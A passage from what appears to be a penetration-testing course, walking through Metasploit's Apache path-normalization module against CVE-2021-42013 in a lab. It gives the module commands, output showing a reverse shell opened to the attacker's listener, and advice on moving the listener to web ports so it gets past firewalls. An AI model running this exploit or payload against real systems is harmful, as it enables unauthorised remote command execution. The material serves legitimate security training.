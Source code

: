 In real penetration tests we may face the situation that port 4444 is blocked by firewalls or other security technologies. This is quite common as it is the default port for Metasploit's modules. In situations like this, changing the port number to ports associated with more commonly used protocols such as HTTP or HTTPS may lead to a successful execution of the selected payload.

We should note that we don't need to start a listener manually with tools such as [*Netcat*](https://en.wikipedia.org/wiki/Netcat) to receive the incoming reverse shell. Metasploit automatically sets up a listener matching the specified payload.

Now, let's set the options *SSL* to false and *RPORT* to 80 since the target Apache web server runs on port 80 without HTTPS. Then, we set *RHOSTS* to the target IP and enter **run**.

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set SSL false
SSL => false

msf6 exploit(multi/http/apache_normalize_path_rce) > set RPORT 80
RPORT => 80

msf6 exploit(multi/http/apache_normalize_path_rce) > set RHOSTS 192.168.50.16
RHOSTS => 192.168.50.16

msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 192.168.119.2:4444
[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/shell_reverse_tcp command payload
[*] Command shell session 2 opened (192.168.119.4:4444 -> 192.168.50.16:35534) at 2022-08-08 05:13:45 -0400
[!] This exploit may require manual cleanup of '/tmp/ruGC' on the target

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

> Listing 29 - Running the exploit module

Once launched, the exploit module first starts a listener on port 4444 and uses the previously shown auxiliary module to check if the target is indeed vulnerable. In our case, it is vulnerable as shown in Listing 29. Then, the vulnerability is exploited, and the payload is sent. The console states that a session is opened, and we have obtained command execution.

Before we head to the next section, let's explore the concept of [*sessions*](https://docs.rapid7.com/metasploit/manage-meterpreter-and-shell-sessions/) and *jobs* in Metasploit. Sessions are used to interact and manage access to successfully exploited targets, while jobs are used to run modules or features in the background.

When we launched the exploit with **run**, a session was created, and we obtained an interactive shell. We can send the session to the background by pressing C+z and confirming the prompt. Once the session is sent to the background, we can use **sessions -l** to list all active sessions.
